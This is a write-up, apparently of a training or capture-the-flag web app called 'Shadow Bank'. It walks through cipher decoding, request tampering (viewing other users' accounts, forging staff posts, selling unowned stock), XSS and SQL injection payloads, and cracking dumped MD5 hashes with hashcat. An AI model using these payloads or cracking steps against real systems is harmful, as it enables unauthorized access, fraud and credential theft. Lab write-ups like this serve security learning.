# Shadow Bank

Unlike Human resources website, you can just register on Shadow Bank.
Although after getting in, there is a lot of interesting stuff to do.

## Cipher

- Into the Shadows (Cryptanalysis of ROT13)
- Down the Rabbit Hole (cryptanalysis of Vigenere Cipher)

In the source code of the page you find
```
<!-- Jub'f yhexvat va gur funqbjf? Jub'f npghnyyl uvqvat haqre gubfr fpnel pybnxf? Jung'f tbvat ba ng /funqbjOnaxUD?  -->
```

Rotation of 13 produces

```
Who's lurking in the shadows? Who's actually hiding under those scary cloaks? What's going on at /shadowBankHQ?
```

There is also an interesting forum post.

```
kph flx fvob rvzvqho aymq le wre dotgv. qw ozsbmg jzsu-vdwfvvl, vkp xywxjsx: jblow mk pdg giig oryk ttdzd eel d jcirb pdyc kmhws, wf akh qicb wklx zb rxrlk br ep ximdwph nqwk cij xhfe. gymvktvv xxvd, wym ehree, zdwsii blpthcg, dv dlv llg ysk iw dwp bvrz hlvbkhc mk erxwh cqnh elv vdpp: lfehypv, zb rqwc xzlqyiu i olexcm zloii. krpp, mka sopejmg vz jrz, wkzyx pw dwmtm, dqo wym zhyx fv. zrfpu grx eict ph, apvivh, hlzkk zlc z wxjsx kw jr qvfu khci? kpdw oigmqgd e xwrg oirt rq hlvzh bzy niqw es xmw wz, wrqg wsi tiw. l oseb pxnl tiuh hlvzh— vlmu iolni. kphq tx uwhvyx diwwpv nplfs arg brf kf, adlo xym fde. —wf trqr ej q jhe wfuhzsiim, dotgv iggph ra dq pbgtdqlxzwq. rs, cfcuh dyim wr os kpdw, dezl wkp grb, li jsl wqoj artn ozrx mqrfky. iolni wmow elrb wktw twxoo rfb eh oieqhg, ds jph wcmvl dqzxymu tfijblry. ayiw vzvk wi spsgth otzv ierfx ymuh? tr kpdw omimfwtse, bkh nek adlo, ardlqr mka ulrlk xdz cslvg, otzva d klxkmu: dyh zv wklx uquhnxzwq, zlzzvj wsi fbkhc tre, olgij i pdcgy pdup. zzalw pmkphu jsl tlnp: xymbup ffbk plh. scw l oseb zdyx kw jr lqfvj plh gmrswi, rtlfp vvuduviu. wk, bzy tiqw sicx wklx, jilg elv kdw: hiim dow qrl khci. zu pdo. cfcuh xeu. prz os pwx nysn qp plh? jilg lpzkh. bzy dcvw mi, jilg elv kdw, zv pwx zzyclqw semm frxi ymuh. /dlrlrzmees/fkpwyquh
```

```
the cat only grinned when it saw alice. it looked good-natured, she thought: still it had very long claws and a great many teeth, so she felt that it ought to be treated with res pect. cheshire puss, she began, rather timidly, as she did not at all know whether it would like the name: however, it only grinned a little wider. come, its pleased so far, thoug ht alice, and she went on. would you tell me, please, which way i ought to go from here? that depends a good deal on where you want to get to, said the cat. i dont much care where— said alice. then it doesnt matter which way you go, said the cat. —so long as i get somewhere, alice added as an explanation. oh, youre sure to do that, said the cat, if you only walk long enough. alice felt that this could not be denied, so she tried another question. what sort of people live about here? in that direction, the cat said, waving its right paw round, lives a hatter: and in that direction, waving the other paw, lives a march hare. visit either you like: theyre both mad. but i dont want to go among mad people, alice remarked. oh, you cant help that, said the cat: were all mad here. im mad. youre mad. how do you know im mad? said alice. you must be, said the cat, or you wouldnt have come here. /shadowbank/cheshire
```

## Tampering Data
- View Other Users' Stocks (Query Parameter Manipulation)
- View Other Users' Currencies

Changing 'user' value
```
GET /ShadowBank/brokerageDetails?user=83247649 HTTP/1.1
GET /ShadowBank/brokerageDetails?user=83247644 HTTP/1.1
```
-  Make a forum post impersonating a Bank Official

```
POST /ShadowBank/newPost.action HTTP/1.1
postText=dicks%0D%0A&threadId=3&postedBy=1337dawg&staffPost=true
```
- Sell Stock You Don't Own

```
POST /ShadowBank/sell.action HTTP/1.1
quantity=1&stockId=1&stockPrice=10000000
```

## Injection

There is a sick XSS in stock search

- alert("XSS in Stock Search")

```HTML
<script>alert(1337)</script>
```

- Data Exfiltration through SQL Injection (forum)

You can also view all the posts on forum by inserting 'or 1=1'

`/ShadowBank/showThread.action?currentThreadID=1%20or%201=1`

- Log in with SQL injection

```
Username: test' or 'y
```

## Hash Cracking

>
Customers may also wish to purchase our "Secure Shield" package. For an additional $5.99/mo., we will salt your password with the string "abc123" before hashing it. This is a very complicated process that will make it extra-impossible for hackers to compromise your password. Or, for $16.99/mo., we offer the "Uncrackable" package; we'll salt your password with the string "as807135%#". This adds even more security, because long, random strings are more difficult to guess.
> - from About page


robots.txt looks like this

```
User-agent: *
Disallow: /
Disallow: /debug
```

From where you can dump some sick hashes by navigating to ``debug``

```
shadow	 a326311e36651f79b0dcd4dcda70228e	abc123
dt	     a441649fbaf4e42c513a4572f3db7e1e	abc123
pants      4b8f105f370310ddc137d141d350cf12	as807135%#
bither	 0d107d09f5bbe40cade3de5c71e9e9b7
peappend   b0f5b5df7fa2bb54e046d4287a0757ca
tiger      827ccb0eea8a706c4c34a16891f84e7b
boots      5ebe2294ecd0e0f08eab7690d2a6ee69
arnold	 asdgawegh
test	   addd03df13dc513f55ac3baa35fec7a5
loans	   hahanopassword
viggy	   nopass
1337dawg 202cb962ac59075b964b07152d234b70
```

MD5 hashes you crack without salt you can crack [here](https://crackstation.net)

 For the other one use hashcat type 10

 ```
 MacBook-Pro-Leo:trape-master Scream$ hashcat -a 0 -m 10 ~/Downloads/hashesBS.txt ~/hashcat/rockyou.txt

 a326311e36651f79b0dcd4dcda70228e:abc123:iamacat           
 a441649fbaf4e42c513a4572f3db7e1e:abc123:fluffykitten      
 4b8f105f370310ddc137d141d350cf12:as807135%#:meow          

 Session..........: hashcat
 Status...........: Cracked
 Hash.Type........: md5($pass.$salt)
 Hash.Target......: /Users/Scream/Downloads/hashesBS.txt
 Time.Started.....: Sun Nov 12 12:32:17 2017 (1 sec)
 Time.Estimated...: Sun Nov 12 12:32:18 2017 (0 secs)
 Input.Base.......: File (/Users/Scream/hashcat/rockyou.txt)
 Input.Queue......: 1/1 (100.00%)
 Speed.Dev.#2.....: 79941.4 kH/s (11.26ms)
 Recovered........: 3/3 (100.00%) Digests, 2/2 (100.00%) Salts
 Progress.........: 2621520/28686592 (9.14%)
 Rejected.........: 80/2621520 (0.00%)
 Restore.Point....: 0/14343296 (0.00%)
 Candidates.#2....: 123456 -> sayonara15
 ```

